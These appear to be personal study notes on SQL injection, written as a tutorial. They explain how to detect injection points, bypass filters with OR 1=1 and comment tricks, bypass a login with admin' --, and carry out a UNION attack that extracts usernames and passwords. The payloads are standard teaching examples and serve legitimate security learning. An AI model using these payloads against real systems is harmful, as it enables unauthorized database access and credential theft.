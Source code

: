 # SQL Injection — Notes & Concepts

---

## 1. What is SQL Injection?

SQL Injection is a vulnerability that allows an attacker to interfere with the queries an application sends to its database. This can lead to unauthorized data access or manipulation.

---

## 2. Web Application Architecture

Web applications usually have **three layers**:

- **Presentation Layer**: The user interface, e.g., the browser.  
- **Logic Layer**: The backend code that processes requests.  
- **Storage Layer**: The database storing data, e.g., MySQL, MSSQL.

### How They Interact

When a user applies a filter (e.g., price = $50):

1. The browser sends a request to the backend.  
2. The backend generates a SQL query to retrieve filtered data.  
3. The database returns the result to the backend, which sends it back to the browser.

---

## 3. Four-Layer Architecture (Modern)

Sometimes, an additional **API layer** is added between Logic and Storage to expose business logic securely and improve scalability.

---

## 4. Detecting SQL Injection

- Using single quotes `'` to test for errors.  
- Boolean conditions like `OR 1=1` or `OR 1=2` in inputs.  
- Injection can occur in `SELECT`, `UPDATE`, `INSERT`, and `ORDER BY` SQL statements.

---

## 5. Example: How SQL Works with User Input

URL:  
https://giftswebsite.com/products?price=100

Corresponding SQL query:  
```sql
SELECT * FROM products WHERE price = 100 AND released = 1;
```

Injection Example
URL:

https://giftswebsite.com/products?price=100'--

Becomes:

```sql
SELECT * FROM products WHERE price = 100'--' AND released = 1;
```
The -- comments out the rest of the query, bypassing the original filter.

OR-based Injection

URL:

https://giftswebsite.com/products?price=100' OR 1=1--

Query:

```sql
SELECT * FROM products WHERE price = 100 OR 1=1-- AND released = 1;
```

This always returns true and exposes all data.

---

## 6. Subverting Application Logic

By injecting SQL into login forms, attackers can bypass authentication:

Example input:

Username: admin' --

Password: (blank)

Query becomes:

```sql
SELECT * FROM users WHERE username = 'admin' --' AND password = '';
```

Password check is ignored.
Hence its by passed.

---

## 🔓 SQL Injection – UNION Attack

🎯 What is UNION in SQL?

The UNION operator allows combining results from two or more SELECT queries into a single result set.

```sql
SELECT a, b FROM table1
UNION
SELECT c, d FROM table2
```
Result: Two columns, merged rows from both SELECT statements.

Conditions:

- Same number of columns in both queries.

- Compatible data types between corresponding columns.

---

## 🔍 Determining the Number of Columns

Two main techniques:

1. ORDER BY Injection

Gradually increase the column index:
```sql
' ORDER BY 1--
' ORDER BY 2--
' ORDER BY 3--
...
```

When the index exceeds the number of columns, the server returns an error (e.g., “ORDER BY position 4 is out of range”).

This helps identify the total number of columns.

2. UNION SELECT NULL

Try increasing NULL values until the query works:

```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
...
````

If it works with 3 NULLs, then 3 columns are returned by the original query.

NULL is type-flexible, so it's the safest value to test with.

---

## 🧠 Finding Columns That Accept Strings

Once the correct column count is known, inject strings to find displayable columns:
```sql
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL,NULL,'a'--
````
Whichever payload reflects 'a' back confirms which column is rendered in the output.

This is crucial to display useful data like usernames, emails, passwords, etc.

---

## 💥 Retrieving Sensitive Data

After knowing:

- Number of columns

- Which column outputs data

You can extract data from other tables like users:

```sql
' UNION SELECT username, password, NULL FROM users--
(Assuming 3 columns total and 3rd isn’t displayed)
```
